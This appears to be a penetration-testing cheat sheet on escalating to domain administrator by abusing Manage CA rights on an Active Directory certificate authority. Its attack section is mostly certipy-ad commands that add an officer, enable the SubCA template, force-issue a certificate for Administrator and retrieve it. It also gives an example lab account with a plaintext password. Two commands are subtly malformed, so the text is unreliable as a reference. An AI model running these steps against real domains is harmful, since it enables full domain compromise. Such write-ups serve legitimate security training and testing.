








## Entry

| **Requirement**                      | **Details**                                                                 |
| ------------------------------------ | --------------------------------------------------------------------------- |
| **Manage CA Access Right**           | Required to configure the Certificate Authority, including assigning roles. |
| **Manage Certificates Access Right** | Needed to issue, approve, and manage certificates.                          |

| **Condition**                 | **Impact**                                                                                                           |
| ----------------------------- | -------------------------------------------------------------------------------------------------------------------- |
| User has **Manage CA** access | Can assign themselves **Manage Certificates** rights by adding their account as a **Certificate Manager** (officer). |

## Enumerate

Command to execute:
```sh
certipy-ad find -username '<username>' -password '<password>' -vulnerable -dc-ip <DC-IP> -stdout
```


We can also analyze on Bloodhound.

Command to execute:
```sh
certipy-ad find -username '<username>' -password '<password>' -vulnerable -dc-ip <DC-IP> -vulnerable -enabled -old-bloodhound
```
and it will give `20250520002150_gpos.json` so we can upload on Bloodhound and lets see.



## Attack

| **Item**              | **Example / Description**                                                         |
| --------------------- | --------------------------------------------------------------------------------- |
| **Username**          | `Simon.Bowen@intercept.vl` – User must have **Manage CA** rights on the target CA |
| **Password**          | `b0OI_fHO859+Aw` – Corresponding password for the account                         |
| **Domain Controller** | `10.10.171.245` – IP address of the target Domain Controller                      |
| **CA Name**           | `intercept-DC01-CA` – Name of the Certificate Authority                           |
| **Template**          | `SubCA` – Used to request a certificate capable of issuing other certificates     |
| **Target UPN**        | `Administrator@intercept.vl` – The UPN used in the malicious certificate request  |

We will start add our user to **officer** to initiate a certificate request using the **SubCA template**

Command to execute:
```sh
certipy-ad ca -ca '<CA-name>' -username '<username>@<domain>' -password '<password>' -dc-ip '<DC-IP>' -add-officer  <username>
```


Now enable template of SubCA.

Command to execute:
```sh
certipy-ad ca -ca '<CA-name>' -username '<username>@<domain>' -password '<password>' -dc-ip '<DC-IP>' -enable-template SubCA
```


Now we can request certificate for Administrator

Command to execute:
```sh
certipy-ad req -username -username '<username>@<domain>' -password '<password>' -dc-ip '<DC-IP>' -ca '<CA-name>' -template SubCA -upn 'Administrator@<domain>' 
```


### ➜ Issue The Failed Certificate Request

To issue the previously denied certificate request, use the certipy command with the **-issue-request parameter**.

Command to execute:
```sh
certipy-ad -ca '<CA-name>' -username '<username>@<domain>' -password '<password>' -dc-ip '<DC-IP>' -issue-request 5
```


Retrieve the issued certificate by running the req command with the **-retrieve** parameter.

Command to execute:
```sh
certipy-ad req  -username '<username>@<domain>' -password '<password>' -dc-ip '<DC-IP>' -ca '<CA-name>' -retrieve 5
```


Once the .pfx certificate file is obtained, request the domain admin TGT Ticket or the administrator hash to gain access to the domain controller.


